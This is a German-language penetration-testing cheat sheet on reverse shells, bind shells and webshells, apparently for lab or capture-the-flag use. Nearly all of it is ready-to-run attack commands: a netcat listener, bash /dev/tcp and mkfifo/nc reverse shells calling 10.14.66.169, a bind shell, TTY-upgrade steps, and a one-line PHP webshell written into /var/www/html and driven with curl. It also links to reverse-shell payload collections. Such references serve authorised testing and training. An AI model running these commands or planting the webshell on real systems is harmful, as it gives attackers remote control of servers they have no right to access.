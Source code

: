 # Shells / Reverse-Shells



<details>

<summary>Links:</summary>

[https://www.revshells.com/](https://www.revshells.com/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

</details>

***

## Netzwerkanalyse und Shell-Verbindungen mit Netcat

### Lokalen Port für eingehende Verbindungen mit Netcat öffnen

```bash
nc -lvnp 1234
```

### Reverse Shell von einem entfernten Server senden

```bash
bash -c 'bash -i >& /dev/tcp/10.14.66.169/6543 0>&1'
```

### Alternative Methode zur Übertragung einer Reverse Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.66.169 6543 >/tmp/f
```

### Bind Shell auf dem entfernten Server starten

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### Verbindung zu einer Bind Shell auf dem entfernten Server herstellen

```bash
nc 10.10.10.1 1234
```

***

## Shell stabilisieren und verbessern

### Terminal-Umgebung exportieren

```bash
export TERM=xterm
```

### Shell-TTY upgraden (Schritt 1)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Shell-TTY upgraden (Schritt 2)

1. `Ctrl + Z` drücken
2.  folgenden Befehl eingeben:

    ```bash
    stty raw -echo
    ```
3. Mit `fg` zur Shell zurückkehren
4. Zwei Mal `Enter` drücken

***

## PHP-Webshell erstellen und verwenden

### Eine PHP-Webshell-Datei erzeugen

```bash
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

### Einen Befehl über die hochgeladene Webshell ausführen

```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```
